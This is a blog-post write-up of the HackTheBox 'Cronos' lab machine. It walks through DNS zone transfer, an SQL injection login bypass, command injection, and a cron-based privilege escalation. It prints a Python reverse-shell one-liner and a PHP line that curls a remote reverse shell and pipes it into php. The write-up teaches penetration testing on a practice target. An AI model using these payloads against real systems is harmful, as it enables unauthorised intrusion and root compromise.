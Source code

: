 ```yaml
---
layout: post
title:	"Cronos Writeup"
date:	2018-09-20 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Cronos Writeup | HackTheBox </title>
</head>

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/ports.png)

## ii. Enumeration

Navigating to the host in the browser:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser.png)

Default Apache page...

Running a gobuster:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/gobuster.png)

`No results...`

In the port scan, we saw DNS open. Let's see if we can find any information:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/nslookup.png)

We got a domain, `cronos.htb`

Let's add `cronos.htb` to our hosts file and attempt to browse to it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser2.png)

Running a gobuster scan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/gobuster2.png)

Viewing robots.txt:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/robots.png)

Once again, another dead end...

Let's attempt a zone transfer, and see what kind of information we get:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/zonetransfer.png)

`admin.cronos.htb` looks very promising...

After adding `admin.cronos.htb` to `/etc/hosts`, let's navigate to it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser3.png)

A login page, lets attempt to bypass using SQLi...

`admin' or '1'='1`

~~~
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/bypass.png)

Access granted.

Looks like we can run traceroute and see the output in the browser.

Let's see if it's vulnerable to command injection:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/commandinjection.png)

We have command injection!

To get a shell, I'm going to use a reverse shell python one-liner:

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/revshell.png)

## iii. Privilege Escalation

Based off the name of the machine, and after not having much luck enumerating, let's focus on cron.

Viewing `/etc/crontab`:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/crontab1.png)

The last line seems interesting... seems like artisan is being executed by root.

Let's look at the permissions of `/var/www/laravel/artisan`:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/artisan.png)

We own the file, and are able to write to it.

Editing artisan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/cron.png)

~~~
<?php
system('curl http://10.10.10.14/rev.php | php')
?>

This will download the php reverse shell from my host, and pipe it into php to execute.

php reverse shell: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
~~~

Waiting a couple of seconds, and looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/root.png)

## iv. Conclusion

I really like how this box uses DNS and Virtual Hosting. Not too many boxes use DNS, so this was a great refresher/practice. 

Thanks for reading.

~~~
Sources / Links:
[0]: https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
[1]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~


